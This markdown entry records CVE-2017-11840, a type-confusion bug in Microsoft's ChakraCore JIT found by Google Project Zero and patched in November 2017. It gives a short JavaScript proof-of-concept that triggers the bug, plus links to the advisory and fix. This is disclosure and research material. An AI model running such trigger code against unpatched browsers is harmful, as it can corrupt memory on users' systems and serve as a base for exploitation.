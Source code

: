 # CVE-2017-11840

- Fix: Nov 2017
- Credit: lokihardt of Google Project Zero

## PoC

```javascript
function opt() {
    let obj = [2.3023e-320];
    for (let i = 0; i < 1; i++) {
        obj.x = 1;  // In the first analysis, BailOnNotObject emitted
        obj = +obj;  // Change the type
        obj.x = 1;  // Type confusion
    }
}

function main() {
    for (let i = 0; i < 1000; i++) {
        opt();
    }
}

main();
```

## Reference

- [Microsoft](https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2017-11840)
- [Google Project Zero](https://bugs.chromium.org/p/project-zero/issues/detail?id=1365)
- [Fix](https://github.com/Microsoft/ChakraCore/commit/874551dd00ff6f404e593c7e0162efb54b953f5a)